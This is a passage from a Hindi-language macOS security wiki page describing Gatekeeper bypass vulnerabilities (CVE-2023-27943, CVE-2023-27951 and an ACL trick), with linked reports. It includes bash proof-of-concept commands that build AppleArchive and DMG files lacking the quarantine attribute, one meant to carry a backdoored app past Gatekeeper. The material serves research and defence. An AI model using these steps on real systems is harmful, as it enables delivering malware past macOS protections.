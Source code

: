 अधिक जानकारी के लिए [**मूल रिपोर्ट**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) देखें।

ध्यान दें कि इसे AppleArchives के साथ भी शोषित किया जा सकता है:
```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```
### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

यह पता चला कि **Google Chrome डाउनलोड की गई फ़ाइलों के लिए क्वारंटाइन विशेषता सेट नहीं कर रहा था** कुछ macOS आंतरिक समस्याओं के कारण।

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

AppleDouble फ़ाइल प्रारूप एक फ़ाइल के गुणों को एक अलग फ़ाइल में `._` से शुरू करके संग्रहीत करते हैं, यह **macOS मशीनों के बीच फ़ाइल गुणों की कॉपी करने में मदद करता है**। हालाँकि, यह देखा गया कि एक AppleDouble फ़ाइल को अनज़िप करने के बाद, `._` से शुरू होने वाली फ़ाइल को **क्वारंटाइन विशेषता नहीं दी गई**।

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}

एक फ़ाइल बनाने में सक्षम होना जिसमें क्वारंटाइन विशेषता सेट नहीं होगी, यह **गेटकीपर को बायपास करना संभव था।** चाल यह थी कि **एप्पलडबल नाम सम्मेलन** का उपयोग करके **एक DMG फ़ाइल एप्लिकेशन** बनाना (इसे `._` से शुरू करना) और इस छिपी हुई फ़ाइल के लिए **एक दृश्य फ़ाइल के रूप में एक सिम लिंक बनाना** जिसमें क्वारंटाइन विशेषता नहीं हो।\
जब **dmg फ़ाइल को निष्पादित किया जाता है**, क्योंकि इसमें क्वारंटाइन विशेषता नहीं है, यह **गेटकीपर को बायपास कर देगा।**
```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```
### uchg (from this [talk](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

